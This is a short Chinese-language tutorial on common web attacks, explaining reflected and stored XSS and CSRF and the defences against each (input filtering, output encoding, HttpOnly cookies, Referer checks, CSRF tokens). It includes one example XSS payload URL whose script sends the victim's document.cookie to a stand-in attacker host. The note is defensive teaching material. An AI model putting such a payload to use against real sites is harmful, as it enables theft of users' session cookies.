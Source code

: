 ## 常见网络攻击
### XSS
XSS全称跨站脚本攻击(Cross Site Scripting),为了不和层叠样式表CSS混淆,改称为XSS,通过向某网站写入js脚本来实现攻击.
1. 非持久型攻击

攻击者找到漏洞地址,通过设置一个url,如`http://www.a.com?content=<script>window.open(“www.b.com?param=”+document.cookie)</script>`,只要受攻击者点开链接,就会执行脚本,获取受攻击者的cookie,发送给攻击者.此时受害者只有一人,

2. 持久型攻击

攻击者在类似博客的网站上,有输入框的地方,类似文章内容、评论区,注入js脚本,存储在服务器上,当其他用户看到这篇博客的时候,自动执行js脚本,实现攻击.这时受害者是很多人.

#### 保护
1. 过滤用户的输入

不要相信用户的任何输入,一定要在服务器端对用户的输入进行过滤,将`<`、`>`、` `、`"`、`&`等转换后存储,最终展示时就是一段文本,而不是可执行的代码.主要思路就是将**容易导致XSS攻击的边角字符替换成全角字符**

2. 对不可信输出编码

不能相信用户的任何输入,将这些内容输出到页面时,先进行转义,编码,再输出在页面上.

3. 安全cookie

服务端将敏感的cookie设置为HttpOnly,js就获取不到这部分cookie了,而浏览器还可以正常使用,需要使用js操作的cookie就不予设置.这样就保证了cookie的安全与正常应用.

### CSRF
CSRF,全称跨站请求伪造(Cross-Site Request Forgery),攻击者伪造好要攻击的网站的表单或a标签get请求,在用户登录了正常网站A后,在未退出的情况下,访问了伪造的网站B,误向网站A发送正常的请求,由于该请求从用户的浏览器向网站A发出,所以会携带上网站A的cookie,网站A会以为是正常的请求,从而实现攻击,造成用户的损失.
#### 保护
1. 检查Referer

检查请求头中的来源网站,保证请求来自于可信的网站,但Referer可以被伪造

2. 设置csrf-token

每次访问页面时,服务器会生成一个随机的token值,并设置过期时间,之后的表单提交等请求需带上该token值,在服务器进行比较.请求过的token值就会失效,下次请求再生成新的token值

